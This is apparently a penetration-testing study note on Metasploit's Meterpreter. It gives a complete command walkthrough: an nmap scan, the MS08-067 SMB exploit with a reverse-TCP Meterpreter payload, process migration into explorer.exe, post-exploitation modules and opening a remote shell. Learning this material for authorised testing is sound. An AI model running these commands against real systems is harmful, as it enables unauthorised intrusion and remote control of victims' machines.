 Is an advanced payload that uses in-memory DLL injection stagers.

**Meterpreter** comunicates over the stager socket and provides a comprehensive client-side Ruby API.

There are 3 types of payloads:
- **Singles**
- **Stagers**
- **Stages**

No new processes are created as Meterpreter injects itself and also uses encrypted communication.

New features can be added to Meterpreter without having to rebuild it.

---
- First of all, scan the ports that are accesible:
````
nmap -sV ip_addr
````
In this example, the port 445 is opened.
- Start Metasploit and postgresql and attack it:
````
service postgresql start

msfconsole

search ms08-067

use exploit/windows/smb/ms08_067_netapi

info

show options

set RHOST ipvictim_addr

show payloads #find the meterpreter

set payload windows/meterpreter/reverse_tcp

show options

set LHOST eth0 #local ip address

exploit
````
Now we get a full meterpreter.

- Now, we have to migrate our process:
````
ps #obtains the running processes

#search the process called explorer.exe
#migrate the shell to that process

migrate PID_process
````

Once here, we can run the post-exploitation payloads described in [[2. Post exploitation in Metasploit 🌍]]:
````
run checkvm

run winenum
````

- We can obtain a shell typing:
````
shell
````